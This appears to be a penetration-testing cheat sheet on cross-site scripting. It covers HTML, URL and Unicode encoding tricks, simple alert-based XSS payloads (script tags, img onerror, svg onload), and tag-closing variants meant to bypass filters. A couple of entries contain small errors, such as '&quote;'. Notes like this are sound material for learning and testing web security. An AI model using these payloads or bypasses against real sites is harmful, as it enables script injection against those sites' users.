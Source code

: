 # Encoding
- **HTML-encode:** Prevent browser from parsing/interpreting a character.
  - `&#xHEX`: `"`  →  `&#x22`
  - `&#DEC`: `"`  →  `&#34`
  - Character reference:
    - `<`  →  `&lt;`
    - `>`  →  `&gt;`
    - `"`  →  `&quote;`
    - `:`  →  `&colon;`
    - `&`  →  `&amp;`
    - `'`  →  `&apos;`
- **URL-encode:** Send non-ASCII characters in URL.
  - `%HEX`: `"`  →  `%22`
  - ehsan%0anext+line  →
    ```bash
    ehsan
    next line
    ```
- **Unicode:** Show non-ASCII charaters.
  - `\uxxxx`: `"`  →  `\u0022` (in JavaScript)

*Tip: Sometimes both web-server and web-application URL-decode the data respectively, so double URL-encode data are valid.*

# Golden tips
1. Browsers automatically HTML-decode the HTML attributes.  →  *Use HTML-encode in HTML attribute.*
   - We **can't** escape the context, by HTML-decoded character, like `<img src="&#x22"...>`.
   ```html
   <img src="x" onerror="&#x61lert(1)">
   ```
2. Browsers parse the unicode in JavaScript.  →  *Use Unicode in JavaScript.*
3. Browsers do not parse HTML tags if they are encoded.  →  *Don't use HTML-encode HTML tags.*

*Tip: Use https://jsfiddle.net/ to test JavaScript codes.*


# Detection
```html
<title INSIDE-TAG>OUTSIDE-TAG</tilte>
```

### Simple payload 
```html
<script>alert(origin)</script>
<img src=x onerror=alert(origin)>
<svg/onload=alert(origin)> 
```

### Outside Tag
##### Non-Executable
- Like `<style>`, `<title>`, `<noembed>`, `<template>`, `<noscript>`, `<textarea>`, `<!-- comment -->`
- Close the tag, then it will be Outside tag.
  ```html
  </tag>
  </tAg/x>            # Bypasses
  </tag{space}>
  </tag//>
  </tag%0a>
  </tag%0d>
  </tag%09>
  ```